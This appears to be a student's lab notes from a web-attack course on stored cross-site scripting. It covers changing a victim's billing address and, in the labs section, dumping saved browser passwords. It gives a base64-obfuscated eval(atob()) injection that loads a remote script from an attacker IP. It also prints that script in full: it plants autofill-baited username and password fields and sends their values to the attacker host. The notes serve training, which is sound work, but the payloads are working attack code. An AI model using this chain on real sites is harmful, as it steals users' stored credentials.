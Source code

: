 Next, let's check `"Use HttpOnly Cookie"` to have the simulator start the session before the page is loaded and click `Render`.
![[Pasted image 20241223175705.png]]
rendering and hit python server
![[Pasted image 20241223175724.png]]

The victim loaded the page, but we have no way of knowing if the payload worked. We're pretty confident that the payload changed the address since we can find another log in the HTTP server. However, we can also cheat and have the victim load the billing page to verify. To do this, we'll log in to our account in the hacker browser and visit the billing page. Once here, we can click _Render_ and the victim will load the same page. However, we can examine what the victim's browser rendered and verify the address is changed.

how we know it worked, amanda has `hax`
![[Pasted image 20241223175935.png]]

##### Labs
`ALERT!howDidYouGetThis?`
![[Pasted image 20241223183959.png]]
used `burpsuite` decoder with 
```js
jQuery.getScript('http://192.168.45.233/xsssavedpasswords.js')
```
to get a `base64` encoded version
```js
alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc3NhdmVkcGFzc3dvcmRzLmpzJykK
```
- **Decode the Value**:
    - The payload string is passed into the `atob()` function.
    - This decodes the Base64-encoded input, returning a readable string.
- **Evaluate as JavaScript**:
    - The decoded string is then passed into the `eval()` function.
    - This executes the string as JavaScript code.
- **Re-encode the Response**:
    - The result of the executed JavaScript is Base64-encoded using the `btoa()` function.
    - This ensures the response is returned in an encoded format.
```bash
'+btoa(eval(atob('alF1ZXJ5LmdldFNjcmlwdCgnaHR0cDovLzE5Mi4xNjguNDUuMjMzL3hzc3NhdmVkcGFzc3dvcmRzLmpzJykK')))+'
```
utilize this `XSS` payload to dump saved passwords
```bash
┌──(root💀gobots)-[24Dec2024 00:28:11]-[/home/kali/SUT/OSWA/xss]
└─# cat xsssavedpasswords.js 
let body = document.getElementsByTagName("body")[0];

var u = document.createElement("input");
u.type = "text";
u.style.position = "fixed";
//u.style.opacity = "0";

var p = document.createElement("input");
p.type = "password";
p.style.position = "fixed";
//p.style.opacity = "0";

body.append(u)
body.append(p)

setTimeout(function(){ 
    fetch("http://192.168.45.233:80/k?u=" + u.value + "&p=" + p.value)
}, 5000);

```